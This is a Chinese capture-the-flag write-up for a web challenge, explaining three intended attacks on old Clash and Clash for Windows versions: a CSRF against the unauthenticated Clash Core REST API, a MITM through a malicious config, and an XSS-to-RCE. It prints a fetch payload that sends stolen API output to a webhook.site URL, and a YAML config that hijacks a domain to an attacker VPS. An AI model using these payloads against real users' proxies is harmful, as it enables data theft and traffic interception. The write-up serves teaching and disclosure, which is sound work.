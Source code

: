 # [Web] 非法所得

- 命题人：thezzisu
- Flag 1：200 分
- Flag 2：200 分
- Flag 3：200 分

## 题目描述

<p>小太极是摆带信科的大四老狗。他的室友保研到了摆带原神学院，学术爱情双丰收；而
小太极除了和教务学会太极拳后，本科四年一无所成，单身的他被扫地出门，最终只得保研到 CMU（Changping Machikou University，现改名为新*园），离校前存放在活动室的个人物品还被别人清理掉了。</p>
<p>恼火之余，小太极看到室友的电脑桌面上，在原神图标下面居然有某蓝色软件。联想到承德某同行的经历，他豁然开朗：这一切居然是室友的非法所得。请你帮助小太极通过网络，找出他室友电脑上的三处证据，让老大哥vivo50w🫡</p>
<p><strong>补充说明：</strong></p>
<ul>
<li>可阅读源码中的 <code>prepare_flag.mjs</code> 等文件了解 Flag 的位置。</li>
<li>VNC 界面仅供观看，请点击网页其他处的按钮进行操作。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>可以看看 <a target="_blank" rel="noopener noreferrer" href="https://clash.gitbook.io/doc/restful-api">文档</a>。</li>
<li>原神学院官网被隐藏起来了，需要你<strong>自己</strong>去衡量。</li>
<li>这是一个古老版本的 CFW。可以看看 <a target="_blank" rel="noopener noreferrer" href="https://github.com/Fndroid/clash_for_windows_pkg/issues/2710">GitHub Issues</a>。</li>
</ul>
</div>

**【网页链接：访问题目网页】**

**【网页链接：访问北大网盘下载题目源码（约 113 MB，因为 Electron）】**

## 预期解法

这道题的预期非常明确。三个Flag分别对应Clash Core CSRF、Clash MITM、CFW XSS2RCE。为了降低难度，环境内Clash相关软件均为低版本。

### Flag1. Clash Core CSRF

Clash Core的Restful API是支持CORS的。这意味着，在**知道Clash Core Restful API Endpoint**、又**没有设置API Secret**的情况下，任何以HTTP协议加载的网页均可以直接通过Restful API操控Clash Core。（为什么需要HTTP？因为Chrome禁止了HTTPS网页通过XHR/Fetch加载HTTP资源。）Flag1就需要你利用这一点，通过Clash Core Restful API获取Flag。

```js
const resp = await fetch("http://127.0.0.1:9090/configs", {
  method: "PUT",
  body: JSON.stringify({
    path: "/app/profiles/flag.yml",
  }),
});
const resp = await fetch("http://127.0.0.1:9090/proxies");
fetch(`https://webhook.site/82e7ba76-58a2-4c74-9dfd-9ba166abf91a/123?` + encodeURIComponent(await resp.text()))
```

需要注意的是，Visit功能要求网址必须为`.pku.edu.cn`子域名。你可以利用homepage题的环境放置你的Payload，或者通过Flag2的做法解决。

### Flag2. Clash MITM

Clash Core可以劫持流量，而这意味着一个恶意的Clash配置将带来MITM攻击的风险。构造配置文件如下：

```yml
port: 7890
mode: Rule
log-level: info
external-controller: ':9090'
proxies:
  - name: 1
    type: socks5
    server: 127.0.0.1
    port: 1926
    skip-cert-verify: true
rules:
  - 'MATCH,DIRECT'
hosts:
  ys.pku.edu.cn: <YOUR-VPS-IP>
```

就可以劫持 `ys.pku.edu.cn` 到你的VPS上。由于访问使用的是HTTP，自己开一个80的HTTP服务即可。

### Flag3. CFW XSS2RCE

这个Flag其实是最简单的——直接复现[这个ISSUE](https://github.com/Fndroid/clash_for_windows_pkg/issues/2710)即可，甚至PoC都在里面有。是不是非常送分呢？

## 花絮

1. 这道题的灵感来源于一些攻防之中的蓝方反制措施。
2. CFW XSS2RCE这种重量级的漏洞影响面非常广。而CFW的作者又不遵守Electron安全实践，在渲染进程暴露Node API真的让人很难评价。如果你的CFW版本低，请尽快升级（虽然以后可能还会有洞就是了）。
3. Clash Core的Restful API也是比较危险的。很多服务器上大家开的Clash Core都没有设置API Secret，这意味着任何人都可以通过Restful API操控你的Clash Core。如果你的Clash Core版本低，还可能被复写配置文件做到RCE。
4. 虽然北大目前还没有原神学院，但`ys.pku.edu.cn`确实存在（DNS可以发现），但打不开。
